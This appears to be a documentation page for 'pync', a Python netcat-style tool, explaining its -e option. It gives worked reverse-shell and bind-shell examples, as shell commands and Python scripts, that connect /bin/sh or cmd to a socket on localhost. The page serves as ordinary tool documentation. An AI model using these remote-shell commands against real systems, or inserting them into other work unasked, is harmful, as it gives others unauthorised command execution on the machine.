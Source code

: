 ========================
Remote Command Execution
========================

.. warning::
   | * Please DO NOT use this functionality
     for evil purposes.

The **-e** option allows you to execute a process and have that process' stdin/stdout/stderr
be connected to the network socket.

Any data coming in from the network will go to the process' stdin and any
data coming from the process' stdout/stderr will go out to the network.

For example, we can create an interactive shell
to execute commands on a remote machine.

A Simple Reverse Shell
======================
1. Create a local server that will listen for the reverse shell connection:

.. tab:: Unix

   .. code-block:: sh
   
      pync -vl localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -vl localhost 8000

.. tab:: Python

   .. code-block:: python
   
      from pync import pync
      pync('-vl localhost 8000')

2. On another console, connect back to the server and
   execute the shell:

.. tab:: Unix

   .. code-block:: sh

      pync -ve "/bin/sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -ve "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      # reverse_shell.py
      import platform
      from pync import pync

      command = '/bin/sh -i'
      if platform.system() == 'Windows':
          command = 'cmd /q'

      pync('-ve "{}" localhost 8000'.format(command))

There should now be a prompt on the server console that
allows you to remotely execute commands on the client machine.

A Simple Bind Shell
===================
1. Create a server on port 8000 that executes the shell upon
   connection:

.. tab:: Unix

   .. code-block:: sh

      pync -vle "/bin/sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -vle "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      # bind_shell.py
      import platform
      from pync import pync

      command = '/bin/sh -i'
      if platform.system() == 'Windows':
          command = 'cmd /q'

      pync('-vle "{}" localhost 8000'.format(command))

2. On another console, connect to the server to
   interact with the shell:

.. tab:: Unix

   .. code-block:: sh

      pync -v localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -v localhost 8000

.. tab:: Python

   .. code-block:: python

      from pync import pync
      pync('-v localhost 8000')

There should now be a prompt on the client console that
allows you to remotely execute commands on the server machine.

.. raw:: html

   <br>
   <hr>

:SEE ALSO:

* :doc:`../options/exec`
* :doc:`../options/listen`
* :doc:`../options/verbose`

